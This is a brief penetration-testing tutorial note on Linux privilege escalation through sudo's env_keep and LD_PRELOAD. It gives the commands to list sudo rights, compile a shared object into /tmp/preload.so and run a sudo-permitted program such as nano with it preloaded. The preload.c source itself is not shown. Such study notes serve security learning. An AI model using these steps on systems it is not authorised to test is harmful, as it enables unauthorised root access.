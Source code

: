 # LD_PRELOAD
***

- You can configure sudo to inherit specific environment variables from the user's environment. To determine which environment variables are inherited, examine the **env_keep** options.
```sh
sudo -l
```
![alt text](https://github.com/masjadaan/Knowledgebase/blob/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/env_varialbes/aa4ae5b60d60446a8f0e5bc217973fec.png)

- **LD_PRELOAD** is an environment variable that, when set, loads a shared object before any others when a program is executed. You can create a shared object from code contained in a file named preload.c
```sh
gcc -fPIC -shared -nostartfiles /path/to/preload.c -o /tmp/preload.so
```

- Set the LD_PRELOAD environment variable to the full path of the newly created shared object.
```sh
sudo LD_PRELOAD=/tmp/preload.so nano
```

- Execute one of the programs that you have permission to run with sudo
